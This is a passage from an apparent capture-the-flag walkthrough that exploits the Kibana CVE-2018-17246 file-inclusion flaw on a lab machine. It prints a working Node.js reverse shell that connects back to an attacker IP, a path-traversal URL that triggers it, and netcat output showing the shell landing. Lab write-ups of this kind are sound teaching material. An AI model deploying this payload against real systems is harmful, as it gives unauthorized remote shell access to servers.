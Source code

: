 There’s a public vulnerability in Kibana, [CVE-2018-17246](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/) (that links is a good writeup). There’s also a POC on twitter:

> A little bit sensationalist, as the flaw executes the destination of the LFI as JS, it doesn't dump /etc/passwd to the browser as the above might lead you to think, instead it dumps it to the kibana log. At least this is what i have seen in testing
>
> — Adam (@AdamTheAnalyst) [December 17, 2018](https://twitter.com/AdamTheAnalyst/status/1074726937396948993?ref_src=twsrc%5Etfw)

The vulnerability is a LFI that will run an included Javascript file. [This GitHub](https://github.com/mpgn/CVE-2018-17246) also has good details.

#### Shell

I’ll need to create a reverse shell on Haystack. I’ll use the one from the GitHub link above:

```

[security@haystack shm]$ cat 0xdf.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.8", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

```

Now I can trigger it by visiting `http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/0xdf.js`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:55962.
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0

```

## Priv: kibana –> root
